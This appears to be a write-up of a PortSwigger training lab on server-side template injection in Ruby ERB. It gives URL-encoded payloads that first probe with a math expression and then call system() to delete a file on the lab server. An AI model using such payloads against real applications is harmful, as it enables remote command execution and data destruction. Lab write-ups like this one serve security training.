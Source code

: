 # Basic server-side template injection

## Description

[This lab](https://portswigger.net/web-security/server-side-template-injection/exploiting/lab-server-side-template-injection-basic) is vulnerable to server-side template injection due to the unsafe construction of an ERB template.

## Reproduction and proof of concept

1. Notice that when you try to view more details about the first product, a GET request uses the message parameter to render "``Unfortunately this product is out of stock``" on the home page.

```text
GET /?message=Unfortunately%20this%20product%20is%20out%20of%20stock HTTP/1.1
Host: 0a92004e03b924bac214204200eb00bf.web-security-academy.net
...
```

2. In the [ERB documentation](https://www.stuartellis.name/articles/erb/), discover that the syntax ``<%= someExpression %>`` is used to evaluate an expression and render the result on the page.
3. Use ERB template syntax to create a test payload containing a mathematical operation, for example:

```text
<%= 7*7 %>
```

4. URL-encode this payload and insert it as the value of the ``message`` parameter in the URL:

```text
https://0a92004e03b924bac214204200eb00bf.web-security-academy.net/?message=<%25%3d+7*7+%25>
```

5. Load the URL in your browser. Notice that in place of the message, the result of your mathematical operation is rendered on the page, in this case, the number 49. This indicates that we may have a server-side template injection vulnerability.
6. From the Ruby documentation, discover the `system()` method, which can be used to execute arbitrary operating system commands.
7. Construct a payload to delete Carlos's file:

```text
<%= system("rm /home/carlos/morale.txt") %>
```

8. URL-encode the payload and insert it as the value of the message parameter:

```text
https://0a92004e03b924bac214204200eb00bf.web-security-academy.net/?message=<%25+system("rm+/home/carlos/morale.txt")+%25>
```

## Exploitability

An attacker will need to review the ERB documentation to find out how to execute arbitrary code, then delete the `morale.txt` file from Carlos's home directory.
